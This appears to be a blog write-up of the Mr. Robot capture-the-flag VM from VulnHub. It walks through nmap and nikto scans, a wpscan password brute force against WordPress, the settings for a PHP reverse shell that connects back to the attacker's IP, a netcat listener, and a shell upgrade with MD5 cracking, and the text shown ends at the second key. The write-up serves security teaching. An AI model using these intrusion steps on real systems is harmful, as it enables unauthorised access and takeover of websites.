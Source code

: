 ```yaml
---
date: 2016-08-06
authors: [trent]
description: >
  Our new blog is built with the brand new built-in blog plugin. You can build
  a blog alongside your documentation or standalone
categories:
  - Blog
---
```


# Hacking f_society

Mr. Robot is a show on AMC about a disturbed hacker attempting to thwart an omni-present
oligarchy while at the same time trying to suppress a dark alter-ego modeled after his
own father.

Notably, the show tries to portray "hacking" realistically (inasmuch as it can without entire episodes
dedicated to watching Elliot pore over the documentation of a specific vulnerable version
of httpd running on Windows Server 2000), and I appreciate it. Well, mostly.

With that in mind, let's break a Mr. Robot themed VM together, and maybe learn something
about webapp security along the way.
<!-- more -->

Download the .ova from [vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/), pop it
in your favorite virtualization software (hard to go wrong with VirtualBox), and boot it up.
The Mr. Robot VM grabs a DHCP lease on boot, and I'd recommend running it and your offense
box on the same virtual subnet.

## Recon / Scanning
First, let's scan the subnet to find Mr. Robot's VM.

```shell
root@bento:~# nmap -A 10.0.2.0/24
Starting Nmap 7.01 ( https://nmap.org ) at 2016-08-03 23:48 PDT

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:6C:39:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.19
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 10.0.2.5
```


From the scan, we can see the VM is probably serving some sort of web-service.
Before we investigate this further, however, let's run some more scans and see
if we can dig up anything else.

```shell
root@bento:~# nikto -host 10.0.2.5
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.2.5
+ Target Hostname:    10.0.2.5
+ Target Port:        80
---------------------------------------------------------------------------
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
```

Our nikto scan turns up a bunch of interesting directories, including what looks like
an admin portal for a WordPress site. Definitely worth checking out.

Navigating to the VMs IP in Firefox yields the following page:

![](../assets/img/mr_robot.webm)

None of the commands are all that interesting. What is interesting,
however, is the site's robots.txt file:

![](../assets/img/robots.png)

Looks like we've got our first key.

```shell
root@bento~# wget http://10.0.2.10/key-1-of-3.txt
--2016-08-06 18:43:14--  http://10.0.2.10/key-1-of-3.txt
Connecting to 10.0.2.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 33 [text/plain]
Saving to: ‘key-1-of-3.txt’

key-1-of-3.txt      100%[===================>]      33  --.-KB/s    in 0s      

2016-08-06 18:43:14 (7.39 MB/s) - ‘key-1-of-3.txt’ saved [33/33]

root@bento~# cat key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

That's a pretty easy win in my book. I'll take it. Save the .dic file for
later, there's no telling how it will come in handy but I doubt they let
us have it for nothing.

Time to revisit the nikto scan and see if we can turn up anything from the
WordPress directories. Let's start with the login page, /wp-login.php.

## Gaining Access

Poking at the login page with a few default credentials doesn't really reveal
anything interesting. Routing the request/response traffic through Burp also
comes up short. Going back to the .dic file we downloaded earlier, it's pretty
clearly some kind of wordlist. There are many duplicate words in there, however,
so I hacked together a Python script to remove them:

```python
with open('fsocity.dic') as infile: dic = infile.readlines()
dic = set(dic)
fsocity = open('fsocity_sorted.dic', 'w')
for i in dic: fsocity.write("%s" % i)
```

Now, using the sorted wordlist and the username 'Elliot' (the most commonly occurring
username in the .dic file) we can attempt to bruteforce the WordPress login. I'll be
using the wpscan tool for my web cracking.

```shell
root@bento:~# wpscan -u http://10.0.2.10/ --wordlist fsocity_sorted.dic --username Elliot
  Brute Forcing 'Elliot': |===================================
  [+] [SUCCESS] Login : Elliot Password : ER28-0652

  Brute Forcing 'Elliot': |===================================
  +----+--------+------+-----------+
  | Id | Login  | Name | Password  |
  +----+--------+------+-----------+
  |    | Elliot |      | ER28-0652 |
  +----+--------+------+-----------+

[+] Finished: Mon Aug  8 12:57:26 2016
[+] Requests Done: 7853
[+] Memory used: 11.816 MB
[+] Elapsed time: 00:02:09
```

Input the credentials into the login form... and we're in.

## Privilege Escelation

From the WordPress admin page, we have access to the source code of a variety of plugins.
Using this, we can spawn a reverse shell with some clever PHP code. The reverse shell I use
I grabbed from [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), just
make sure to make the necessary adjustments to the socket so you can actually recieve the 
traffic your reverse shell sends back. To do this, edit these lines of the above .php script:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.2.15';  // CHANGE THIS
$port = 6666;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

to reflect your own IP address as well as a generic port you wish to recieve the traffic on.
After that, either zip and upload the standalone PHP shellcode as a WordPress plugin, or paste
the script into one of the plugins already on the site. Then, set up a listener in your terminal
and activate the plugin containing the payload:

```sh
root@bento:~# nc -lvp 6666
listening on [any] 6666 ...
10.0.2.10: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.10] 57491
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 22:26:41 up  1:08,  0 users,  load average: 0.01, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
$ 
```

Cool, we have a shell session up. I poked around the system for a long time looking for clues or
other keys, and finally found the files 'password.raw-md5' and 'key-2-of-3.txt' in '/home/robot'. However, cat-ing the file gives Permission Denied. Looks like I'll have to escalate my privilege.

```sh
$ su
su: must be run from a terminal
$
```

Okay, first we have to spawn a terminal with Python:

```sh
$ python -c 'import pty; pty.spawn("bin/sh")'
$ su robot
su robot
Password:
```

Great, now at least we can 'su'. Going back to the file 'password.raw-md5' we found does indeed
give us a raw md5 hash. Popping it into one of the online crackers like [this one](http://md5cracker.org/)
gives us the string 'abcdefghijklmnopqrstuvwxyz'. Nice. You'd think Elliot would have a better
password.

```sh
$ su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ whoami
whoami
robot
robot@linux:/$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:/$
```

Nice. Got the second key.

-TC
